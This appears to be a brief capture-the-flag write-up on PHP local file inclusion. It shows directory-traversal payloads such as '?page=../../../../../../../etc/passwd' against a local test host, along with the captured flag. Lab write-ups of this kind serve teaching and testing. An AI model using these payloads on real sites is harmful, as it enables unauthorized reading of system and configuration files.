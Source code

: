 # PHP File Inclusion exploit
PHP's include() function can be exploited to view seemingly hidden files, such as configuration files.  
/etc/passwd file stores essential information, which required during login - it stores user account information.

# Local File Inclusion

### Step 1
> * Attack
> 1. http://0.0.0.0/?page=**included_file**
> * trial and error with directory hierarchy:  
> _/etc/passwd ../../etc/passwd ../../../etc/passwd_  
> _http://0.0.0.0/?page=../../../../../../../etc/passwd_  
**Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0**

* https://null-byte.wonderhowto.com/how-to/exploit-php-file-inclusion-web-apps-0179955/